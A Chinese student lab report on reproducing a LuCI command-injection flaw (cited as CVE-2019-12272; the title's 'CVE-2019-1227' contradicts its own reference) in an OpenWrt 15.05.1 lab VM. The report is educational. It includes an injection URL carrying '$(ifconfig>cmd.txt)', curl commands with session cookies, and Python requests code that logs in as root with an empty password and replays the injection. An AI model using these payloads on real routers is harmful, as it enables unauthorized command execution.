

# 第四章 移动通信安全概述实验

---

## 实验要求

* 复现 CVE-2019-1227漏洞

* 编写一个漏洞利用程序

---

## 实验环境

* OpenWrt 15.05.1

---

## 实验过程

### 环境搭建

*  下载安装存在该漏洞的 OpenWrt 15.05.1 的镜像版本,参考[移动互联网安全第一章实验](https://c4pr1c3.github.io/cuc-mis/chap0x01/exp.html)搭建

* OpenWrt 15.05.1虚拟机明细界面


* OpenWrt 15.05.1虚拟机网络配置


### 漏洞复现

1. 使用管理员账号登录 LuCI

    * 登录界面

    

    * 登录后详细信息

    

2. 使用浏览器访问 `http://192.168.56.123/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)` 触发漏洞


3. 访问 `http://192.168.56.123/cmd.txt`看到漏洞复现效果


### 漏洞利用

1. 通过 Chrome 浏览器开发者工具的 `Copy as curl` 功能，将漏洞复现请求复制为 curl 命令



```
curl 'http://192.168.56.123/cgi-bin/luci/;stok=70876e68e5b961addd85f72368c3c82a/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt' \
  -H 'Connection: keep-alive' \
  -H 'Pragma: no-cache' \
  -H 'Cache-Control: no-cache' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7' \
  -H 'Cookie: sysauth=1544dc8df6ee151bdc8816bbef2dced1' \
  --compressed \
  --insecure
```

2. 通过[第三方网站](https://curl.trillworks.com/)将 curl 命令转换为 `Python requests` 代码


```
import requests

cookies = {
    'sysauth': '1544dc8df6ee151bdc8816bbef2dced1',
}

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Language': 'zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7',
}

response = requests.get('http://192.168.56.123/cgi-bin/luci/;stok=70876e68e5b961addd85f72368c3c82a/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt', headers=headers, cookies=cookies, verify=False)
```

3. 重新登录，获取漏洞重放所需的 `luci_username / luci_password` 的参数信息，同样转化为 Python request 代码


* curl命令

```
curl 'http://192.168.56.123/cgi-bin/luci' \
  -H 'Connection: keep-alive' \
  -H 'Pragma: no-cache' \
  -H 'Cache-Control: no-cache' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Origin: http://192.168.56.123' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Referer: http://192.168.56.123/cgi-bin/luci' \
  -H 'Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7' \
  --data-raw 'luci_username=root&luci_password=' \
  --compressed \
  --insecure
```

* `Python requests` 代码

```
import requests

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Upgrade-Insecure-Requests': '1',
    'Origin': 'http://192.168.56.123',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Referer': 'http://192.168.56.123/cgi-bin/luci',
    'Accept-Language': 'zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7',
}

data = {
  'luci_username': 'root',
  'luci_password': ''
}

response = requests.post('http://192.168.56.123/cgi-bin/luci', headers=headers, data=data, verify=False)
```

4. 漏洞利用代码[exp.py](exp.py)

5. 在命令行中执行`python exp.py ifconfig`，命令行输出结果如下:


6. 在命令行中执行`python exp.py id` 并使用网页访问http://192.168.56.123/cmd.txt ，漏洞已经实现


---

#### 参考资料

[CVE_2019_12272](https://c4pr1c3.gitee.io/cuc-mis/chap0x04/cve-2019-12272.html)

[移动互联网安全（2021）视频](https://www.bilibili.com/video/BV1rr4y1A7nz?p=100&spm_id_from=pageDriver)

[shiancuc的chap0x04实验报告](https://github.com/CUCCS/2021-mis-public-shiancuc/tree/mis_chap0x04/chap0x04)

[ididChan的chap0x04实验报告](https://github.com/CUCCS/2021-mis-public-ididChan/blob/chap0x04/chap0x04/report/report0x02.md)